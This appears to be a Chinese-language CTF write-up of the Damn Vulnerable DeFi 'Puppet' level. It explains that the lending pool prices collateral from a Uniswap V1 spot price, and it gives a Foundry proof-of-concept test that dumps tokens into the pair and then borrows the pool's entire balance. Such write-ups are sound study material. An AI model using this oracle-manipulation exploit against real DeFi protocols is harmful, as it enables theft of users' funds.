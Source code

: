 综上，我们通过分析合约，可以找到合约薄弱点如下：
1. 合约通过uniswapv1交易对的**瞬时价格**来计算质押要求，我们可以通过swap来影响价格，从而影响存款要求。

### 攻击思路
1. 将 eth/dvt 降低，通过swap 1000e18 dvt来操纵；
2. 将lending pool的钱通过借款掏空。

### PoC
完整的PoC在[这里](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```
下图是攻击成功输出的日志：
